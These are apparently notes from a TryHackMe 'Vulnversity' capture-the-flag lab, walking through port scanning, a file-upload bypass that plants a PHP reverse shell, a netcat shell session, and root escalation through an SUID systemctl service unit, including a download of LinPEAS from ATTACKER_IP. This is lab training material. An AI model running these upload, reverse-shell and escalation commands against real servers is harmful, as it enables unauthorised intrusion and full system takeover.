 # Vulnversity
## Reconnaissance

| Nmap Flag | Description
| --- | ---
| `-sV` | Attempt to determine version of running services.
| `-p <x>` or `-p-` | Port scan for port <x> or scan all ports.
| `-Pn` | Disable host discovery and scan for open ports.
| `-A` | Enable OS and version detection, executes in-built scripts for further examination.
| `-sC` | Scan with default Nmap scripts.
| `-v` | Verbose mode.
| `-sU` | UDP port scan.
| `-sS` | TCP SYN port scan.

## Locating Directories Using [Gobuster](https://github.com/OJ/gobuster)
* Brute forces URIs (directories and files), DNS subdomains, and virtual host names.
* Install Gobuster on Kali.
```
sudo apt-get install gobuster
```
* Requires wordlist to identify if public directory is available.
* Kali `/usr/share/wordlists` folder contains many wordlists.

| Gobuster Flag | Description
| --- | ---
| `dir` | Use directory/file bruteforcing.
| `-e` | Prints full URLs to the console.
| `-u` | Target URL.
| `-w` | Path to wordlist.
| `-U` and `-P` | Username and password for basic authentication.
| `-p <x>` | Proxy to use for requests.
| `-c <http cookies>` | Specify cookie for simulatin authentication.

## Compromise the Webserver
* [Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
* Upload to `http://TARGET_IP:3333/internal/`.
  * PHP file extensions blocked by upload form.
* Fuzz upload form using BurpSuite to identify which extensions are not blocked.
### Use the Intruder to automate customised attacks.
#### 1. Make a wordlist of extensions.
```
printf "php\nphp3\nphp4\nphp5\nphtml" >  phpext.txt
```
#### 2. Intercept browser traffic with BurpSuite.
#### 3. Send captured request to Intruder.
* "Sniper" attack type.
* "Payload Positions" > find the filename > prefix and suffix `§` to extension.
* "Payloads" > "Payload settings" > "Load" > phptext.txt.
   * `.phtml` extensions allowed by upload form.
#### 4. Start the attack.
* Edit `php-reverse-shell.php`.
   * Change IP to attacking machine.
   * Rename file to `php-reverse-shell.phtml`.
* Reverse shell is called on target.
* Forces a connection to listening attacker.
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
#### 5. Listen to incoming connections using netcat.
```
nc -lvnp 1234
```
#### 6. Upload shell to webserver.
#### 7. Execute payload.
* Navigate to `http://TARGET_IP:3333/internal/uploads/php-reverse-shell.phtml`
#### 8. Connection established on Netcat session.
```
Connection from 10.10.240.196 33302 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:00:44 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Privilege Escalation
* Linux SUID (set owner userId upon execution) is special type of file permission.
* Gives temporary permissions to a user to run binary with permission of file owner.
  * E.g. `/usr/bin/passwd` binary file to change user password has SUID bit set.
    * User needs to be able to write to shadowers file but only root has access by default.
    * User account has root privileges to make the right changes.
```
4  2  1  4  2  1  4  2  1
r  w  x  r  w  x  r  w  x
SUID  V     V     V
r  w  s  r  w  x  r  w  x
-------
 User
```
#### 1. Upgrade to TTY shell using Python.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
#### 2. Search for all SUID files.
```
find / -user root -perm -4000 -print 2>/dev/null
```
  * `-user root` is file owner.
  * `-perm 4000` specifies permissions.
#### 3. Use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) scripts to identify SUID vulnerabilties.
```
mkdir /home/kali/linpeas
cd /home/kali/linpeas
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
#### 4. Serve payload through python webserver.
```
python3 -m http.server
```
#### 5. Download LinPEAS to target.
* Ensure that target directory has write permissions (`/tmp`).
* Write LinPeas output to txt file.
```
wget http://ATTACKER_IP:8000/linpeas.sh
chmod +c ./linpeas.txt
./linpeas.sh -a > linpeas.txt
```
#### 6. Read SUID part of linpeas.txt file.
```
grep -A 50 "SUID - Check easy privesc, exploits and write perms" ./linpeas.txt
```
   * `-A 50` means list 50 lines after the search term "SUID - Check easy privesc, exploits and write perms".
* LinPEAS shows /bin/systemctl highlighted in red/yellow signifying a 95% privilege escalation vector.
#### 7. Browse to [GTFOBins](https://gtfobins.github.io)
  * Select `SUID`'
  * `CTRL+F` and search for `systemctl`.
> If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.
#### 8. `cd /tmp` as this directory is writable.
#### 9. Create local SUID copy of bash binary and run it to maintain elevated (root) privileges.
```
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.PzHSya3VD0.service to /tmp/tmp.PzHSya3VD0.service.
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.X6k1yvp1ii.service to /tmp/tmp.X6k1yvp1ii.service. 
```
#### 10. `cat /tmp/output` to read file that contains contents of restricted `/root/root.txt` file.
